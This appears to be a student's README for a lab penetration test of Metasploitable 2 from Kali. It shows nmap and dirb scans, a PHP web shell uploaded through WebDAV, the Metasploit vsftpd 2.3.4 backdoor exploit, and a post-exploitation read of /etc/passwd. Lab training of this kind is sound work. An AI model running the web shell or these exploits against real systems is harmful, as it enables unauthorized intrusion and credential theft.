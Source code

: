 Project 3: Penetration Testing in a Lab

# Goal

Simulate a penetration test against a vulnerable machine in a safe lab environment, then document the findings.

# Methodology

The penetration test followed a structured approach:

1. Reconnaissance & Scanning
2. Vulnerability Scanning
3. Exploitation
4. Post-Exploitation
5. Reporting

# Scope

Attacker VM: Kali Linux

Target VM: Metasploitable 2

Environment: Host-only network

# Tools Used

- Nmap (port/service discovery)
- Dirb (web vulnerability scanning)
- Cadaver (file injection)
- Metasploit Framework (exploitation)

# Attack Path

## 1\. Reconnaissance & Scanning

Find open ports and services:

_nmap -sV -A &lt;target_IP&gt;_

- \-sV → service/version detection
- \-A → OS detection, traceroute, script scanning

Open ports: 21 (FTP), 22 (SSH), 80 (HTTP)

## 2\. Web Vulnerability Scanning

Check the web service:

_dirb http://&lt;target_IP&gt;_

- Looks for accessible web servers.

## 3\. WebDav file injection

Create a shell.php file and add _&lt;?php system($\_GET\['cmd'\]); ?&gt;_

_cadaver http://&lt;target_IP&gt;_

_put shell.php_

Now you have Remote Code Execution (RCE) on the server.

## 4\. Exploitation with Metasploit

Example: FTP Backdoor Exploit (vsftpd 2.3.4)

_msfconsole_

_search vsftpd_

_use exploit/unix/ftp/vsftpd_234_backdoor_

_set RHOST &lt;target_IP&gt;_

_exploit_

## 5\. Post-Exploitation

Once inside:

_whoami_

_uname -a_

_cat /etc/passwd_

# Evidence

• Nmap 
![](./Screenshots/nmap.png)

• Dirb 
![](./Screenshots/dirb.png)

• Cadaver 
![](./Screenshots/cadaver.png)

• Metasploit 
![](./Screenshots/msfconsole.png)